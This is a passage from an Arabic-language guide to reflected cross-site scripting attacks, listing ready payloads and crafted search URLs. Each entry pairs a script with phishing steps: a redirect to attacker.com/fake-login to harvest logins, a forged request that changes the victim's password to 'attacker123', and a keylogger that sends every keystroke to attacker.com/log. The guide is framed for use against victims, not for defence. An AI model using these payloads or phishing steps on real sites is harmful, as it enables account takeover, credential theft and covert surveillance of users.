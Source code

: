 2. **Phishing لسرقة بيانات تسجيل الدخول:**
   - **الوصف**: تعمل Redirect لصفحة تسجيل دخول مزيفة عشان تسرق اليوزر والباسورد.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/fake-login';</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>window.location='attacker.com/fake-login';</script>
     ```
   - **الخطوات**:
     1. صمم صفحة تسجيل دخول مزيفة.
     2. ابعت الرابط في إيميل Phishing.
     3. سجّل البيانات اللي الضحية تدخلها.

3. **تنفيذ أوامر في سياق المستخدم:**
   - **الوصف**: تستخدم الرابط عشان تنفذ أوامر زي تغيير كلمة السر.
   - **Payload**:
     ```html
     <script>
       var xhr = new XMLHttpRequest();
       xhr.open('POST', 'example.com/change-password', true);
       xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
       xhr.send('new_password=attacker123');
     </script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>var xhr=new XMLHttpRequest();xhr.open('POST','example.com/change-password',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('new_password=attacker123');</script>
     ```
   - **الخطوات**:
     1. ادرس API الموقع.
     2. ابعت الرابط في حملة Phishing.

4. **تسجيل ضربات المفاتيح (Keylogging):**
   - **الوصف**: تسجل كل اللي الضحية بتكتبه بعد فتح الرابط.
   - **Payload**:
     ```html
     <script>
       document.onkeypress = function(e) {
         new Image().src='attacker.com/log?key=' + e.key;
       };
     </script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>document.onkeypress=function(e){new Image().src='attacker.com/log?key='+e.key;}</script>
     ```
   - **الخطوات**:
     1. ابعت الرابط في رسالة Phishing.
     2. سجّل المفاتيح في السيرفر.

